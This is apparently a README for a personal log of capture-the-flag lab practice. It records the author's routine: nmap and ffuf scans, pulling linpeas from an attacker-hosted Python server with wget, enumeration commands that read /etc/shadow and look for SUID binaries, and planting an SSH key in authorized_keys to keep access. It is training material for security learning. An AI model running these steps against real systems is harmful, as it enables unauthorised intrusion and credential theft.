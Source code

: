 - Difficulties are categoried as the original author written
- Some easy are not that easy and not easy may be easy
- Though I titled as `writeups`, they are not written as writeups. 
- Just records to track the progress

- In notes, I often skip how to nmap scan, how directory brute forcing, how to get linpeas file, etc
- For that, I always use the same methods.

- First, I use zsh in my ubuntu machine and terminator (which can easily split screens, `Ctrl+Shift+o` for horizontal split and `Ctrl+Shift+e` for vertical split)
- After starting the rooms, I first export IP of the room `export IP=10.10.230.23` in `~/.zshrc` files

1. Nmap Scan

```sh
nmap -sC -sV $IP -oN nmap_init.log -vv
```

- if there are few ports found with default port scanning, I use rustcan to scan all ports (rustscan is fast)

```sh
rustscan -a $IP
```

2. Directory Brute Forcing with FFUF

- I first started with common.txt wordlist (I think it is inside Seclist but I move under usr folder)

```sh
ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c -t 128
```

- If nothing found, use `directory-list-2.3-medium.txt` file

3. For sharing file from local machine to victim (room's) machine, I have already created folder `share/exploit`

- Inside that folder, I collect linpeas.sh, pspy, etc
- from local machine, create python server

```sh
python -m http.server 8888
```

- Then from room's shell,

```sh
wget http://$TUN0_IP:8888/linpeas.sh
```

4. For linux privilege escalation, I first check

```sh
sudo -l
id                # check groups, docker, sudo, lxd, etc
ls -la /home      # check the users with home directories
cat /etc/passwd   # check the users
cat /etc/shadow   # can i read this
cat /etc/crontab  # if there any cron jobs
sudo --version    # to check sudo bypass
find / -perm -4000 2>/dev/null # for suid bits
```

- if not found, run `linpeas.sh` file

5. If I already get user access and the machine has ssh service open and want to get ssh shell, I have already create `id_rsa` pair in my local machine with

```sh
ssh-keygen
# then fill -> id_rsa
# enter, enter -> for no password
```
- It will create `id_rsa` and `id_rsa.pub` file
- To enter into machine which you already get shell access, in victim machine, 

```sh
cd ~ # go to home directory
mkdir .ssh # create .ssh file
echo "contents_from_id_rsa.pub_from_local_machine" > .ssh/authorized_keys
# save your id_rsa.pub content as authorized keys
```
- from local machine

```sh
ssh username@$IP -i id_rsa
```
- it will enter with ssh